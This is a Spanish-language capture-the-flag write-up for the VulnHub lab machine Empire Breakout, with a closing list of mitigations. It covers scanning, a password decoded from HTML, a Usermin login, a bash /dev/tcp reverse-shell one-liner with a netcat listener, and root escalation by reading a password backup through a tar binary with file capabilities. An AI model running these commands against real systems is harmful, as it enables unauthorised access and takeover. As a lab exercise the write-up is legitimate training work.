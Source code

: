 # **CTF EMPIRE BREAKOUT**

OBJETIVO: 192.168.131.129 (Empire Breakout) <br>
 
 <div style="text-align: center;">
  <img src="https://raw.githubusercontent.com/Zyanetralys/profile/refs/heads/main/HD-wallpaper-star-wars-empire-battlefront-games-gaming-ps4-star-wars-starwars-xbox.jpg" width="550" alt="Star Wars Battlefront">
</div>

## SECUENCIA DE ATAQUE

### FASE 1: PREPARACIÓN 
mkdir ~/Desktop/vulnhub && cd ~/Desktop/vulnhub <br>
ping -c 4 192.168.131.129  # Verificación de conectividad <br>
Resultado: Objetivo accesible. <br>

### FASE 2: RECONOCIMIENTO
nmap -sC -sV -p- --open -oN escaneo 192.168.131.129 <br>
Puertos identificados: <br>
•	80/tcp - Apache httpd (página web) <br>
•	139/tcp - Samba smbd 4.6.2 <br>
•	445/tcp - Samba smbd 4.6.2 <br>
•	10000/tcp - MiniServ 1.981 (Webmin) <br>
•	20000/tcp - MiniServ 1.830 (Usermin) <br>

### FASE 3: EXPLOTACIÓN INICIAL
Análisis web: Navegador → http://192.168.131.129 <br>
•	Página Apache por defecto encontrada <br>
•	Inspección código fuente HTML <br>

Extracción de credenciales: <br>
•	Comentario HTML: <!-- Don't worry this is safe to share with you, my access is encoded --> <br>
•	Código Brainfuck localizado al final del HTML <br>
•	Decodificación: decode.fr → Contraseña obtenida: .2uqPEfj3D<P'a-3 <br>
 <br>
echo ".2uqPEfj3D<P'a-3" > clave  # Almacenamiento seguro <br>

Enumeración de usuarios: <br>
enum4linux -a 192.168.131.129 <br>
Usuario identificado: cyber <br>

### FASE 4: ACCESO INICIAL

Autenticación: <br>
•	Panel Usermin: https://192.168.131.129:20000 <br>
•	Credenciales: cyber / .2uqPEfj3D<P'a-3 <br>
•	ACCESO CONCEDIDO <br>
 <br>
Primera flag: <br>
ls          # Exploración directorio <br>
cat user.txt # Flag user obtenida <br>

### FASE 5: SHELL REVERSA
Preparación listener: <br>
ifconfig                    # IP local: 192.168.0.11 <br>
nc -lvp 443                # Listener puerto 443 <br>

Ejecución desde Command Shell del panel: <br>
bash -i >& /dev/tcp/192.168.0.11/443 0>&1 <br>
Shell reversa establecida como usuario cyber <br>
 <br>
### FASE 6: ESCALADA DE PRIVILEGIOS

Enumeración de privilegios: <br>
sudo -l                     # Sin resultados <br>
getcap -r / 2>/dev/null    # CRÍTICO: /home/cyber/tar cap_dac_read_search=ep <br>
 <br>
Identificación objetivo: <br>
cd /var/backups <br>
ls -la                     # Archivo: .old_pass.bak (propiedad root) <br>

Explotación capabilities: <br>
cd /home/cyber <br>
./tar -cf clave.tar /var/backups/.old_pass.bak  # Compresión con capabilities <br>
tar -xvf clave.tar                              # Extracción <br>
cd var/backups <br>
cat .old_pass.bak                               # Contraseña root: Ts&4&YurgtRX(=~h <br>

Escalada final:
su root                    # Password: Ts&4&YurgtRX(=~h <br>
script /dev/null -c bash   # Estabilización shell <br>
cd /root <br>
cat root.txt              # Flag root obtenida <br>

## VULNERABILIDADES CRÍTICAS EXPLOTADAS

### CREDENCIALES EN CÓDIGO FUENTE <br>
•	Vector: Contraseña Brainfuck en HTML <br>
•	Impacto: Acceso directo a panel administrativo <br>
•	Criticidad: MÁXIMA <br>

### CAPABILITIES MAL CONFIGURADAS
•	Vector: CAP_DAC_READ_SEARCH en binario tar <br>
•	Impacto: Lectura arbitraria de archivos sistema <br>
•	Criticidad: ALTA <br>

### ARCHIVO BACKUP CONTRASEÑA ROOT
•	Vector: /var/backups/.old_pass.bak <br>
•	Impacto: Escalada directa privilegios root <br>
•	Criticidad: MÁXIMA <br>
 
### PANEL ADMINISTRATIVO EXPUESTO
•	Vector: Usermin puerto 20000 sin restricciones <br>
•	Impacto: Superficie ataque administrativa <br>
•	Criticidad: MEDIA <br>

## HERRAMIENTAS EMPLEADAS
Reconocimiento: nmap, navegador web <br>
Enumeración: enum4linux, decode.fr <br>
Acceso: Panel web Usermin <br>
Persistencia: Netcat (shell reversa) <br>
Escalada: getcap, tar (capabilities) <br>

## MEDIDAS DE MITIGACIÓN

### CRÍTICAS (0-24 horas)
•	Eliminar credenciales de código fuente HTML <br>
•	Remover capability CAP_DAC_READ_SEARCH del binario tar <br>
•	Eliminar archivo /var/backups/.old_pass.bak <br>
•	Cambiar contraseña root inmediatamente <br>

### URGENTES (24-72 horas)
•	Restringir acceso paneles Webmin/Usermin por IP <br>
•	Auditar todos binarios con capabilities especiales <br>
•	Revisar ubicaciones backup archivos sensibles <br>

### IMPORTANTES (1-2 semanas)
•	Implementar gestión segura secretos <br>
•	Configurar monitoreo accesos administrativos <br>
•	Establecer proceso revisión código fuente <br>

## EVIDENCIAS
•	Flag Usuario: Capturada desde /home/cyber/user.txt <br>
•	Flag Root: Capturada desde /root/root.txt <br>
•	Credenciales: Usuario 'cyber' y contraseña root documentadas <br>
•	Archivos: Escaneo nmap y evidencias almacenadas en ~/Desktop/vulnhub/ <br>

## EVALUACIÓN
•	TIEMPO: 45 minutos <br>
•	DIFICULTAD: Baja <br>
•	DETECCIÓN: No <br>
•	El objetivo presenta varios vectores de ataque de nivel crítico que facilitan comprometerla rápidamente, destacando la combinación de credenciales expuestas y configuraciones inseguras. <br>

## MV
https://www.vulnhub.com/entry/empire-breakout,751/
